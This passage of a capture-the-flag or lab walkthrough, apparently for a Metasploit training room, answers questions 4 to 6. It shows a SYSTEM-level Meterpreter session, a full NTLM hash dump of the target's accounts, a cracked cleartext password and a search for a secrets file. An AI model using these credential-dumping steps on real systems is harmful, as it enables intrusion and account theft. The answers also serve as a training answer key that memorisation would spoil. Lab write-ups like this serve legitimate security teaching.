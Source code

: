 &nbsp;

### Question 4

What is the NTLM hash of the jchambers user?

answer: 69596c7aa1e8daee17f8e78870e25a5c

```shell
msf6 post(windows/gather/enum_shares) > sessions -i

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/wind  NT AUTHORITY\SYSTEM @  10.10.47.94:4444 -> 1
            ows                    ACME-TEST             0.10.208.39:50589 (10
                                                         .10.208.39)

msf6 post(windows/gather/enum_shares) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:f43280b5f412e57434347370784f24ea:::
meterpreter > 

```

&nbsp;

### Question 5

What is the cleartext password of the jchambers user?

answer: Trustno1

&nbsp;

### Question 6

Where is the "secrets.txt" file located?

answer: c:\\Program Files (x86)\\Windows Multimedia Platform\\secrets.txt

```shell
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

meterpreter > 
```

